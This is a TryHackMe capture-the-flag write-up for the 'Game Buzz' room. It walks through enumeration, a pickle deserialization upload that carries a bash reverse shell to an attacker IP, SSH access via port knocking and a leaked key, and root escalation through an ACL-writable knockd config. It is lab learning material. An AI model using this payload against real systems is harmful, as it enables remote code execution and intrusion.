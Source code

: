 # Game Buzz

![image](https://user-images.githubusercontent.com/5285547/128932672-b10c018a-8d55-4bfd-8edb-1d4100c0a480.png)

Romm link: https://tryhackme.com/room/gamebuzz

## Enum

Nmap

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Incognito
```



```
sudo nano /etc/hosts  

incognito.com
dev.incogniot.com
```
---
## Port 80 

Checking the main website didn't show much, apart from a button that loads a file with a .pkl extension. 

![image](https://user-images.githubusercontent.com/5285547/128937818-90d5dd7c-561d-4463-8a1c-a79311deb7b5.png)

Also we find a domain name. 

```
sudo nano /etc/hosts  
ip incognito.com
```

## dev.incognito.com

```
sudo nano etc/hosts
IP dev.incogniot.com
```

http://dev.incognito.com/secret/upload/

Finding the endpoint we can try to upload a file of our own. Based on the .pkl file extension this hints at python pickle deserilization. 

## User

If we can get our file to be read from the main website we can get RCE. 

test.pkl (rev shell)

```
#!/usr/bin/env python3
import pickle, os
class pickleSerilization(object):
    def __reduce__(self):
        return (os.system,("bash -c 'bash -i >& /dev/tcp/10.8.153.120/9999 0>&1'",))
pickle.dump(pickleSerilization(), open("rev_shell", "wb"))
```
Running the code gives us the rev_shell file. Upload this at "http://dev.incognito.com/secret/upload/" then call it with the main website.

![image](https://user-images.githubusercontent.com/5285547/128940779-a030648b-e70f-49e1-b35f-53d343d13e96.png)

Now we can access the /home/dev2/ folder to find the user flag. 

---
## User 2

We find a file called "/etc/knockd.conf" that looks intresting. I see some ports we need to knock to open SSH

```
[options]
        logfile = /var/log/knockd.log

[openSSH]
        sequence    = 5020,6120,7340
        seq_timeout = 15
        command     = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCE$
        tcpflags    = syn

[closeSSH]
        sequence    = 9000,8000,7000
        seq_timeout = 15
        command     = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j REJE$
        tcpflags    = syn


5020,6120,7340
```

Doing some more enumeration showed some mails for dev1 in /var/mail, with a message to let ourselfs in! 

![image](https://user-images.githubusercontent.com/5285547/128942053-8354618c-dc30-45b7-b653-2ca97ad1e5a0.png)

Using knock I opend the SSH port then used the id_rsa key to login as dev1. 

```
knock  10.10.28.93 5020 6120 7340

#Now login, copy the rsa to a new file
chmod 600 id_rsa
ssh dv1@IP -i id_rsa
```

![image](https://user-images.githubusercontent.com/5285547/128942276-39b99b82-3826-4ec6-a5a8-341f920dda9b.png)

---
## Root

Enumerating the system again we can see the same file popping up in linpeas with acl permissions set. 

![image](https://user-images.githubusercontent.com/5285547/128942448-bd64f8da-f086-4d76-9c72-6e728f375d2e.png)

Knowing this lets edit the file to test some command execution (as root). 

```
nano /etc/knockd.conf

# acl 

setfacl -m u:dev1:rw /etc/knockd.conf
```







